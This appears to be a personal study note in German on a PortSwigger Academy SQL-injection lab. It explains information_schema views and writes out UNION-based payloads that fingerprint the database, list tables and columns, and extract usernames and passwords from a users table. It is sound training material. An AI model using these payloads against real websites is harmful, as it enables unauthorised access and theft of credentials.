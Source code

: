 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Set Of Views

[SQL-Injection-Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
Die meisten Datenbanken haben etwas das nennt sich Set of Views und zeigt ein Informations Schema. Das ist wichtig für viele Daten weil es mühsam wäre für jeden User jeden einzelnen Eintrag aus der Datenbank abzufragen. Daher gibt es diese Listen die sich nur updaten wenn auch etwas in der Datenbank verändert wird - beschleunigt den Abruf und entlastet die Datenbank.
`SELECT * FROM information_schema.tables`

z. B: bei folgendem Aufbau. Erst schauen welche,
- Database Version
- Anzahl Elemente und welche Typen

`' UNION SELECT @@VERSION, NULL--` 
`' UNION SELECT 'a','a'--`

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
| MyDatabase    | dbo          | Products   | BASE TABLE |
| MyDatabase    | dbo          | Users      | BASE TABLE |
| MyDatabase    | dbo          | Feedback   | BASE TABLE |
##### Table_Names herausfinden

`SELECT table_name,null FROM information_schema.tables`
returned Liste aller tables und finden: `users_ceswxa`
![[sqli_set_of_views1.PNG]]

##### Column_Names herausfinden

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE |
| ------------- | ------------ | ---------- | ----------- | --------- |
| MyDatabase    | dbo          | Users      | UserId      | INT       |
| MyDatabase    | dbo          | Users      | Username    | VARCHAR   |
| MyDatabase    | dbo          | Users      | Password    | VARCHAT   |
`' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_ceswxa'--`
![[sqli_set_of_views2.PNG]]

-> Dann haben wir alle Informationen die wir brauchen und können einen Aufruf wie.
`password_tpmfyg`
`email`
`username_aqrsop`

Dann können wir etwas wie folgendes bauen:
`' UNION SELECT username_aqrsop,password_tpmfyg FROM users_ceswxa--`

![[sqli_set_of_views3.PNG]]